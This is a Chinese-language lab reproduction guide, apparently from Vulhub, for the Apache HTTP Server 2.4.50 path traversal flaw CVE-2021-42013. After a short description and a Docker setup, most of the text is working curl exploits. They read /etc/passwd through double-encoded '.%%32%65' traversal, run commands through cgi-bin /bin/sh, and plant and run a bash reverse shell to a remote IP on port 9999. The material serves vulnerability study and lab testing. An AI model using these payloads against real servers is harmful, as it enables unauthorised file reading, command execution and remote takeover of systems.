



Apache HTTP Server 2.4.50 路径穿越漏洞 CVE-2021-42013¶
漏洞描述¶
Apache HTTP Server是Apache基金会开源的一款流行的HTTP服务器。Apache官方在2.4.50版本中对2.4.49版本中出现的目录穿越漏洞CVE-2021-41773进行了修复，但这个修复是不完整的，CVE-2021-42013是对补丁的绕过。
攻击者利用这个漏洞，可以读取位于Apache服务器Web目录以外的其他文件，或者读取Web目录中的脚本文件源码，或者在开启了cgi或cgid的服务器上执行任意命令。
这个漏洞可以影响Apache HTTP Server 2.4.49以及2.4.50两个版本。
参考链接：
- https://httpd.apache.org/security/vulnerabilities_24.html
- https://twitter.com/roman_soft/status/1446252280597078024
环境搭建¶
Vulhub执行如下命令编译及运行一个存在漏洞的Apache HTTP Server 2.4.50版本服务器：
docker-compose build
docker-compose up -d
环境启动后，访问http://your-ip:8080即可看到Apache默认的It works!页面。
漏洞复现¶
使用CVE-2021-41773中的Payload已经无法成功利用漏洞了，说明2.4.50进行了修复。
但可以使用.%%32%65进行绕过，.%%32%65是对%2e再次URL编码后的结果（注意其中的/icons/必须是一个存在且可访问的目录）：
curl -v --path-as-is http://your-ip:8080/icons/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd
可见，成功读取到/etc/passwd：

在服务端开启了cgi或cgid这两个mod的情况下，这个路径穿越漏洞将可以执行任意命令：
curl -v --data "echo;id" 'http://your-ip:8080/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh'

写入反弹shell
curl -v --data "echo;echo 'bash -i >& /dev/tcp/192.168.174.128/9999 0>&1'>> /tmp/shell.sh" 'http://192.168.174.128:8080/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh'
执行反弹shell
curl -v --data "echo;bash /tmp/shell.sh" 'http://192.168.174.128:8080/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh'
